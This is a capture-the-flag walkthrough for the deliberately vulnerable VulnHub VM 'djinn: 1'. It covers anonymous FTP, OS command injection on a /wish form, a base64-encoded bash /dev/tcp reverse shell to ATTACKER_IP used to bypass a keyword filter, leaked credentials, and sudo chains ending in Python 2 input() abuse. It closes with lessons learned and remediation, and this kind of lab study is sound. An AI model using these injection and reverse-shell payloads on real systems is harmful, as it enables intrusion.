



# djinn: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.43.134 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | /home/nitish/user.txt + /root/proof.sh |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/djinn-1,397/) |

## Attack Summary

nmap → FTP anonymous (`creds.txt`, `game.txt`) → port 7331 gobuster → `/wish` OS command injection → base64-encoded reverse shell → `www-data` → `/opt/80/app.py` → `nitish` creds → `sudo -u sam genie -cmd` → `sudo /root/lago` → Python `input()` abuse → root

## Methodology

1. Network discovery + full port scan
2. FTP anonymous login — credential and game files
3. Port 7331 web enumeration and command injection
4. Base64-encoded reverse shell bypass
5. Lateral movement: www-data → nitish → sam → root

---

## Step 1: Network Discovery

```bash
netdiscover
```

Target: 192.168.43.134

---

## Step 2: Port Scan (all ports)

```bash
nmap -p- 192.168.43.134
```

Open: 21 (FTP), 22 (SSH, filtered), 1337 (math game), 7331 (HTTP).


---

## Step 3: FTP Anonymous Login

```bash
ftp 192.168.43.134
# username: anonymous, password: (blank)
ls
get creds.txt
get game.txt
get message.txt
cat creds.txt
cat game.txt
cat message.txt
```

`game.txt` hints at port 1337. `creds.txt` contains partial credential hints. `message.txt` taunts about the game.



---

## Step 4: Port 7331 — Web Enumeration

```bash
gobuster dir -u http://192.168.43.134:7331 -w /usr/share/wordlists/dirb/big.txt
```

Finds `/wish` (form) and `/genie` (403 Forbidden).

---

## Step 5: Command Injection on `/wish`

The form at `http://192.168.43.134:7331/wish` executes OS commands. Testing with `id` confirms execution.

Direct `nc -e` reverse shell is filtered ("Wrong choice of words").

Bypass with base64 encoding:

```bash
# Generate payload on attacker
echo "bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1" | base64
# Result: YmFzaCAtaSA+JiAvZGV2L3RjcC9BVFRBQ0tFUl9JUC84MDgwIDA+JjE=
```

Submit in the form:

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC9BVFRBQ0tFUl9JUC84MDgwIDA+JjE= | base64 -d | bash
```

Start listener:

```bash
nc -nlvp 8080
```

Shell received as `www-data`.



---

## Step 6: Credential Discovery — nitish

```bash
cd /opt/80
cat app.py
```

`app.py` references credentials for `nitish`. Also check:

```bash
find / -name "creds.txt" 2>/dev/null
cat /home/nitish/.dev/creds.txt
```

Credentials: `nitish` / `p4ssw0rdStr3t0n9`

---

## Step 7: Lateral Movement — www-data → nitish

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
su nitish
# password: p4ssw0rdStr3t0n9
cat /home/nitish/user.txt
```

---

## Step 8: sudo to sam via genie

```bash
sudo -l
# Shows: nitish can run /usr/bin/genie as sam (NOPASSWD)
sudo -u sam /usr/bin/genie -cmd new
whoami
# sam
```


---

## Step 9: sudo to root via lago (Python input() abuse)

```bash
sudo -l
# sam can run /root/lago as root (NOPASSWD)
sudo -u root /root/lago
```

The lago menu presents options. Select **option 2** and enter `num` at the input prompt to abuse Python 2 `input()` (which evaluates expressions):

```
2
num
```

This drops a root shell.

```bash
bash
cd /root
./proof.sh
```



---

## Lessons Learned

1. **FTP anonymous login** should never be enabled on internet-facing systems — it leaks credentials and hints
2. **OS command injection on web forms** is critical — always sanitize input, use parameterized commands
3. **Character filtering** is insufficient — base64 encoding trivially bypasses keyword blacklists
4. **Python 2 `input()`** evaluates expressions, unlike Python 3's `input()` — never use Python 2 `input()` for untrusted data
5. **Chained sudo privilege escalation** (user → sam → root via NOPASSWD) is dangerous — apply least privilege

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| FTP anonymous login | Disable anonymous FTP; use SFTP with key auth |
| Command injection on /wish | Whitelist allowed inputs; avoid system() calls with user data |
| Bypass via base64 | Input sanitization must be semantic, not keyword-based |
| Python 2 input() in sudo binary | Rewrite in Python 3; validate all inputs before evaluation |
| NOPASSWD sudo chain | Require passwords; apply principle of least privilege |
